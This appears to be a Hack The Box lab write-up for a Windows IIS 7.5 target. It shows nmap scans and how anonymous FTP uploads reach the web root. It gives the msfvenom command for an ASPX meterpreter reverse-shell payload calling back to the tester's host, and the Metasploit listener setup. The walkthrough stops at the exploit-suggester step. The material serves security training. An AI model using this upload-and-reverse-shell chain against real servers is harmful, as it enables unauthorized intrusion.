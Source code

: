 # Nmap
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 5000 10.10.10.5 -oN surface.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:28 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```
```CSS
▶ nmap -sC -sV -p 21,80 --min-rate 5000 10.10.10.5 -oN deep.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:31 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

# FTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7c41409-5936-4da5-8464-17f3d93385d2)

# HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1b24c617-3c50-4c19-a2c6-4993b136cba5)

# Foothold
- Observe that the FTP server is in the same route as the HTTP server. Which means there stands a chance if file uploads are allowed a file is uploaded via FTP and it can be then accessed directly using the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a94a4267-2326-4851-9cae-7da69ae1da6e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/43ce2b5e-170d-40e1-96b9-26541fa165ee)

- Create a text file with any random name and upload it. Then access the uploaded file in the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/db8bd9ae-4356-43c7-ad3d-2501ebb011a1)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c67d341-5538-410c-aa80-6caa588743c0)

## MSFVenom
  - Generate a payload using `MSFVenom` for a reverse tcp connection to get a shell.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5e2d416c-4b86-4d87-9f23-d93e4c483f56)
```CSS
▶ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.54 LPORT=4444 -f aspx -o rsp.aspx
```

 - Upload payload.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b8466f5-48f7-4b75-a897-3dd71973f57d)

- Start listener.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f744751a-a08f-427f-8c4b-aac2ece65d46)
```CSS
▶ sudo msfdb run
▶ use exploit/multi/handler
▶ set payload windows/meterpreter/reverse_tcp
▶ set LHOST tun0
▶ set LPORT 4444
▶ run
```
  - View `sysinfo`.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c64fc822-539f-4fb3-9e1e-8e06a0500bfa)
```CSS
meterpreter> sysinfo
```

- Get a upgraded shell and view system information.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cd643c8f-22be-4c47-ae52-263d0ac6520d)
```CSS
meterpreter> shell
c:\windows\system32\inetsrv>systeminfo
```

- Exit the upgraded shell.
- Search for exploit suggester.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fdeb30ff-1cf4-46be-a238-1fe6b508745d)

- Set session and run.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5ca39469-d646-4dc9-9f9f-8eec1c61cf61)


